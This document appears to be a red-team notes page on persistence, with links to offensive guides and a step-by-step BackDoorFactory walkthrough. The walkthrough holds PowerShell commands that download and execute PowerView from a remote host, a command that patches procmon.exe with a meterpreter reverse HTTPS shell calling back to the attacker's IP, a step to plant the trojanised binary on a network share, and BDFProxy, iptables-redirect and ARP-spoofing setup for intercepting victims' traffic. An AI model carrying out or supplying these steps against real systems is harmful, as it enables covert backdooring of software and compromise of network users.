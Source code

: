# Persistence

## Guides and Reference

* [AlphasecLabs Persistence Guide](https://github.com/alphaSeclab/persistence/blob/master/Readme\_en.md)
* [PayloadsAllTheThings/Linux-Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md)
* [PayloadsAllTheThings/Windows-Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
* [https://www.ired.team/offensive-security/persistence](https://www.ired.team/offensive-security/persistence)
* [https://www.blackhillsinfosec.com/backdoors-breaches-logon-scripts/](https://www.blackhillsinfosec.com/backdoors-breaches-logon-scripts/)
* [https://offlinemark.com/2021/05/12/an-obscure-quirk-of-proc/](https://offlinemark.com/2021/05/12/an-obscure-quirk-of-proc/)
* Code Caves
  * [https://haiderm.com/fully-undetectable-backdooring-pe-file/#Code\_Caves](https://haiderm.com/fully-undetectable-backdooring-pe-file/#Code\_Caves)
* [https://www.infosecmatter.com/terminal-escape-injection/](https://www.infosecmatter.com/terminal-escape-injection/)
* [http://pwnwiki.io/#!persistence/windows/autostart.md](http://pwnwiki.io/#!persistence/windows/autostart.md) - Windows Autostart locations
* Common Registry locations for Persistence - _PTFM: - pg. 24_&#x20;
* _PTFM:  Persistence with Metasploit/Empire - pg. 26_

## Tools

### [BackDoorFactory](https://github.com/secretsquirrel/the-backdoor-factory)&#x20;

The goal of BDF is to patch executable binaries with user desired shellcode and continue normal execution of the pre-patched state.

* We can find the most commonly used binaries by searching open shares
  * We start with a command shell on the victim
  * Next we find all the shares on the network the user has access to.
    * \>Powershell.exe “IEX (New-Object Net.WebClient).DownloadString('https://raw/githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1'); Invoke-ShareFinder -ExcludeIPC -ExcludePrint -CheckShareAccess | Out-File -Encoding ascii found\_shares.txt”
  * Next we take the output from the shares and starts enumerating all the executables and finding the LastAccessTime and LastWriteTime
    * Powershell.exe “IEX (New-Object Net.WebClient).DownloadString('https://raw/githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1'); Invoke-FileFinder -ShareList .\found\_shares.txt -FreshEXEs -ExcludeHidden -CheckWriteAccess"
  * Now we grab a copy of the popular binary you choose. For the following example we will choose procmon.exe
    * \#cd /opt/the-backdoor-factory
    * ./backdoor.py -f \~/Desktop/Procmon.exe -s meterpreter\_reverse\_https -H \[your kali IP] -P 8080
  * Once you execute backdoor.py, now you need to find a code Cave to hold your shell code.
  * Once you find a cave that works, pres “a” to append your code. After this is complete, BDF will drop the new exe in the folder that was backdoored.
  * Now take that file and put it back on the fileshare.
* Setup - MITM
  * Run BDFProxy
    * \#bdfproxy
  * BDFProxy will create a metasploit resource file.
    * \#msfconsole -r /usr/share/bdfproxy/bdfproxy\_msf\_resource.rc
  * We alaso need to config our firewall to forward all http traffic through the mitmproxy
    * \#sysctl -w net.ipv4.ip\_forward=1
    * \#iptables -t nat -a PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
  * Lastly config the victim host to route through our machine using arpspoofing